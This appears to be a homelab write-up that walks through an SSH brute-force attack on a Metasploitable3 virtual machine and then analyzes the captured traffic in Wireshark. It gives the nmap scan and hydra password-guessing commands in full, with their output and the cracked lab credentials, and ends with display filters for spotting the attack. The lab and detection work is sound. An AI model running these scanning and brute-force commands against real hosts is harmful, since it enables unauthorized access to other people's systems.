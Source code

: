 # SSH Brute Force PCAP Analysis ```[Homelab Environment]```

* Attack Machine: ```10.38.1.111```
* Victim Machine: ```10.38.1.110```

> Note: PCAP file is available in this repository, if you've taken an interest in this project and would like to do some analysis yourself. The PCAP file does not have any generated traffic, and there isn't a lot of investigation behind it. However, this demonstrates traffic specifically from a SSH brute force attack.
# tcpdump

We specify tcpdump to write the capture information to ```/home/vagrant/ssh_cap``` on the eth0 interface and specify verbose output in the Metasploitable3 machine.

<img src="https://i.postimg.cc/85K9HQ4X/image.png">

# Exploitation

```console
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ ping 10.38.1.110 # Threw in some ICMP traffic.
PING 10.38.1.110 (10.38.1.110) 56(84) bytes of data.
64 bytes from 10.38.1.110: icmp_seq=1 ttl=64 time=1.00 ms
64 bytes from 10.38.1.110: icmp_seq=2 ttl=64 time=0.854 ms
64 bytes from 10.38.1.110: icmp_seq=3 ttl=64 time=1.04 ms
64 bytes from 10.38.1.110: icmp_seq=4 ttl=64 time=0.892 ms
64 bytes from 10.38.1.110: icmp_seq=5 ttl=64 time=0.949 ms
64 bytes from 10.38.1.110: icmp_seq=6 ttl=64 time=0.980 ms
64 bytes from 10.38.1.110: icmp_seq=7 ttl=64 time=0.959 ms
64 bytes from 10.38.1.110: icmp_seq=8 ttl=64 time=1.05 ms
^V64 bytes from 10.38.1.110: icmp_seq=9 ttl=64 time=0.975 ms
^C
--- 10.38.1.110 ping statistics ---
9 packets transmitted, 9 received, 0% packet loss, time 8062ms
rtt min/avg/max/mdev = 0.854/0.965/1.047/0.059 ms
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ nmap -sV -p 1-1000 10.38.1.110 # simulated 1000 ports getting scanned (a bit more realistic rather than "-p 22" parameter.
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-19 03:50 GMT
Nmap scan report for 10.38.1.110
Host is up (0.0018s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp open  ipp         CUPS 1.7
Service Info: Hosts: 127.0.2.1, METASPLOITABLE3-UB1404; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.63 seconds
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ hydra -L /home/parrot/Desktop/usernamelistlab.txt -P /home/parrot/Desktop/passlistlab.txt 10.38.1.110 ssh # Note, each word list has something like 60 entries. Although I didn't want to make them too big, I wanted some substance in the PCAP.
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-19 03:50:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3055 login tries (l:65/p:47), ~191 tries per task
[DATA] attacking ssh://10.38.1.110:22/
[STATUS] 494.00 tries/min, 494 tries in 00:01h, 2566 to do in 00:06h, 16 active
[STATUS] 472.00 tries/min, 1416 tries in 00:03h, 1644 to do in 00:04h, 16 active
[22][ssh] host: 10.38.1.110   login: vagrant   password: vagrant # Username & Password
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
parrot@attackbox$ 
parrot@attackbox$ 
parrot@attackbox$ ssh vagrant@10.38.1.110
vagrant@10.38.1.110's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 3.13.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
vagrant@metasploitable3-ub1404:~$ 
vagrant@metasploitable3-ub1404:~$ 
vagrant@metasploitable3-ub1404:~$ touch SSH_DONE.TXT.COMPLETE
```

After completing the exploitation and packet capture, we can move the PCAP via ```scp``` command.

<img src="https://i.postimg.cc/J7bJXLkm/image.png">

# Analyzing The PCAP

We ended up capturing quite a few packs and so, I thought it'd be neat to try a few different display filters I've come up with to make some observations about the traffic.

* First, let's see the amount of ICMP requests that were made to our victim's machine by using: ```icmp and !ip.src==10.38.1.110``` - which shows us ICMP traffic and not the ip source of ```10.38.1.110```. Wireshark shows ```9``` displayed items.

<img src="https://i.postimg.cc/3wCY1yQw/image.png">

* Port scanning begins at 03:50:13 in the PCAP (UTC).
* We see characteristics of an open port TCP scan communication. By filtering the TCP reset flag, we can see that there is a reset for each open port on Metasploitable3.

Here are the returned open port results from earlier:
```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp open  ipp         CUPS 1.7
```
<img src="https://i.postimg.cc/XvBKZymp/image.png">

And we can compare this to the reset flags using: ```tcp.flags.reset==1 and !ip.src==10.38.1.110``` display filter. You can find more supplementary reading at this [blog post](https://medium.com/@thismanera/nmap-detection-with-wireshark-e780c73a0823) about the various scan types and how they appear on wireshark. This may be a future project for myself, as the other scans fall out of the scope for this particular lab observation.

### SSH Analysis
<img src ="https://i.postimg.cc/MTgyWnH0/image.png">

By simply filtering the port (```tcp.port==22 and ip.src==10.38.1.111```), we can already note the malicious activity (huge amount of traffic being directed to port 22 - alternating attack src ports). Because SSH is secure, not much information can be observed through the TCP stream.

At the end of the attack we can flip over to our server as traffic source (```tcp.port==22 and ip.src==10.38.1.110```) -- The length jumps and we get some interesting info. From some supplementary reading, I learned successful authentication has an increased length.

<img src="https://i.postimg.cc/y8DdXsTt/image.png">
